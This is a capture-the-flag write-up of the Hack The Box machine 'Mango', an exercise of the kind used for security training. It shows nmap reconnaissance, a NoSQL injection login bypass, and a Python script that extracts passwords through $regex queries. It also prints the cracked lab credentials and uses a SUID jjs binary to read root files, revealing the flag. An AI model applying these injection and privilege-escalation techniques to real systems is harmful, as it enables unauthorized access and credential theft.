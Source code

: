 # MANGO

## NMAP

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/mango]
└─$ nmap 10.10.10.162
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 03:25 EDT
Nmap scan report for 10.10.10.162
Host is up (0.28s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 51.13 seconds
                                                                                                          
┌──(kali㉿kali)-[~/Downloads/hackthebox/mango]
└─$ nmap 10.10.10.162 -p 22,80,443 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 03:26 EDT
Nmap scan report for 10.10.10.162
Host is up (0.28s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 443

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango1.png)

## ANALYTICS.PHP

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango2.png)

## CERTIFICATE

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango3.png)

Here we find another domain `staging-order.mango.htb`

## STAGING-ORDER.MANGO.HTB

opening the domain with https gives the same page but opening it with http retuens a new page.

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango4.png)

I used sqlmap to see if there was some sql injection that the form was vulnerable to but it was not.
Since there was a injection tag on the box I google searched for mango sql injection and found that mangoDB is vulnerable to `nosql injection`.

I used this [cheatsheet](https://book.hacktricks.xyz/pentesting-web/nosql-injection) to look for a injection that works.
`username[$ne]=toto&password[$ne]=toto`
I used burpsuit to intercept my request and injected `[$ne]` in the request.

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango5.png)

And this we got redirected to `/home.php`.

![](https://github.com/Leo-2807/Writeups/blob/main/images/mango6.png)

But it seemed like a dead end from here. 

## SSH

I went back a few steps and looked at the cheatsheet again to see what else can be done with the nosql injections.

At the end od the cheatsheet there was a credentials bruteforce script which we can use to bruteforce password and usernames.

I copied the script and made some changes for it to work.

On running the script we find two usernames `admin and mango` but no password.  

On reading again it seems like regex does not support certain characters.
So I write a script to find passwords for the usernames we got.

```python
#!/usr/bin/env python3

import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username = "admin"
passwd = ""
url = "http://staging-order.mango.htb"

restart = True

while restart:
    restart = False
    
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            password = passwd + c
            payload = {"username":username, "password[$regex]": "^" + password + ".*"} 
            r = requests.post(url, data=payload, allow_redirects=False)
            if r.status_code == 302:
                print(password)
                restart = True
                passwd=password
                if c == "$":
                    print(passwd)
                    exit(0)
                break
```

Running the script twice we get the password for both the usernames.
```
admin:t9KcS3>!0B#2
mango:h3mXK8RhU~f{]f5H
```
Using the username mango we are able to ssh into the machine.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/mango]
└─$ ssh mango@10.10.10.162   
mango@10.10.10.162's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 17 10:56:52 UTC 2021

  System load:  0.01               Processes:            103
  Usage of /:   26.7% of 19.56GB   Users logged in:      0
  Memory usage: 27%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.


Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
mango@mango:~$ id
uid=1000(mango) gid=1000(mango) groups=1000(mango)
```

The user.txt is in the home directory of user admin.
We can use su to esecalate to user admin.

```bash
mango@mango:/home$ su admin
Password: 
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home$ cd admin
admin@mango:/home/admin$ ls
user.txt
```
## PRIVESEC

### LINPEAS.SH

There were two vulnerbilities that were found by linpeas

```bash
...snip...
╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                                                 
                                                                                                                                                                                      
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
...snip...
╔══════════╣ SUID - Check easy privesc, exploits and write perms  
...snip...
-rwsr-sr-- 1 root   admin            11K Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
...snip...
```

On searching both of them on `gtfobins` we find that for exploiting pkexec we need sudo permission which we don't have.
So onto the next `jjs` can be easily exploited since we have suid permission.

The command given under the SUID category on gtfobins only work on macOS.

But we can read files as root using jjs.

```bash
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

And got the root.txt

```bash
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
cfc7e474bf0d9c3791f104b048cc1d8c
jjs> admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ 
```
